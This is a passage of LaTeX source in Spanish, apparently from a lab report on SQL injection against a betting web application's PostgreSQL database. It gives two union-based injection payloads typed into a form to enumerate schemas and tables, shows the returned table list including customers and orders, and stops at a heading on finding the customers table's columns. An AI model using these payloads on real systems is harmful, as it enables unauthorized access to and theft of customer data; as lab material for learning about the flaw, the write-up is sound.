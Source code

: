 \documentclass{article}
\begin{document}
Realmente de la consulta solo se ha utilizado que la variable sustituida está al final, luego podemos unir el resultado con otra consulta, en este caso sobre las tablas de administración

Para centrarse en las tablas de interés es necesario encontrar el oid del \textit{schema public}

Esto se logra fácilmente con la siguiente entrada en formulario:
\begin{lstlisting}
a' union select oid || ' ' || nspname from pg_namespace where '1'='1

\end{lstlisting}
Retornando algo similar la página web:
\begin{lstlisting}
    99 pg_toast
    11817 pg_toast_temp_1
    2200 public
    11 pg_catalog
    12086 information_schema
    11816 pg_temp_1
\end{lstlisting}
{\footnotesize Salida completa en \texttt{oid\_public.html}}

Usando esto, es relativamente sencillo en la tabla anterior, recuperar las tablas de interés con la siquiente entrada:

\begin{lstlisting}
a' union select oid || ' ' || relname || ' ' || relnamespace from pg_class where relnamespace = 2200 and '1'='1

\end{lstlisting}

La cual devuelve:
\begin{lstlisting}
    20700 optionbet 2200
    20690 clientorders_id_seq 2200
    20706 options 2200
    20723 clientorders_pkey 2200
    20725 customers_pkey 2200
    20727 customers_username_key 2200
    20709 options_optionid_seq 2200
    20721 clientbets_pkey 2200
    20698 customers_customerid_seq 2200
    20677 clientbets 2200
    20715 bets_pkey 2200
    20731 options_pkey 2200
    20683 clientorders 2200
    20675 categorias_categoriaid_seq 2200
    20670 bets_betid_seq 2200
    20717 categorias_categoria_key 2200
    20667 bets 2200
    20672 categorias 2200
    20729 optionbet_pkey 2200
    20719 categorias_pkey 2200
    20692 customers 2200
\end{lstlisting}
{\footnotesize Salida completa en \texttt{tablas\_interes.html}}

\subsubsection{Identificar los atributos de una tabla}
En este caso, se hallará el esquema de la tabla \texttt{customers}
\end{document}
